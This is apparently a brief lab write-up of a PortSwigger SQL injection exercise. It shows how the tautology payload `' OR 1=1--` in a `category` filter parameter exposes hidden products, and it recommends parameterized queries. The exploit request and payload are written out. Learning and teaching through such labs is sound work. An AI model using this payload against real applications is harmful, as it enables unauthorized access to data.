


# 🕸️ SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

> 🔐 Attack Type: Logic Bypass via SQL Injection

**Platform:** PortSwigger  
**Category:** SQL Injection  
**Severity:** Medium  

## 🧾 Summary

Bypassed filter logic to retrieve hidden (unreleased) products via SQL injection.

## 🧨 Vulnerability

SQL Injection in product filter

- **Endpoint:** `GET /filter?category=`
- **Cause:** Unsanitized user input

## ⚡ Impact

Attacker can bypass application logic -> access hidden data.

## 🛠️ Exploit

- Injected single quote to confirm SQLi (500 error)
- Used tautology to override filter condition
- Commented out remaining query

```http
GET /filter?category=' OR 1=1-- HTTP/2
````

## 💥 Payload

`' OR 1=1--`

## 📸 Evidence

* **Expected Behavior:**
  

* **Exploited Response:**
  

## 🛡️ Fix

Use parameterized queries.